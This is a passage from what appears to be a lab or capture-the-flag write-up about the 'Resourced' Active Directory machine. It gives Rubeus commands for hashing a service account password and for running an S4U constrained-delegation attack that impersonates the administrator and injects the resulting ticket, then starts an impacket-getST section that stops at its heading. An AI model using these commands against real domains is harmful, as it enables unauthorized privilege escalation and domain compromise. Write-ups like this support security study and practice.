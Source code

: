 It is possible to get the ticket in 2 different ways (Rubeus and impacket-getST)

## Rubeus

`.\Rubeus.exe hash /password:123456 /user:SERIVCEA  /domain:Resourced.local`

`![47f0a1a74c820e101205da8c7524571b.png](file:///C:/Users/Jon/.config/joplin-desktop/resources/7523e56696cb4df6b9712dc972e8e434.png)`

`.\Rubeus.exe s4u /user:SERVICEA /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/Resourcedc.Resourced.local /ptt`

![4bff73fce72d2eef75210c932f085509.png](/assets/img/screenshots/Resourced/4bff73fce72d2eef75210c932f085509.png)

Grab administrator's hash and convert to .kirbi

`base64 -d ticket.kirbi.b64 > ticket.kirbi`

## impacket-getST
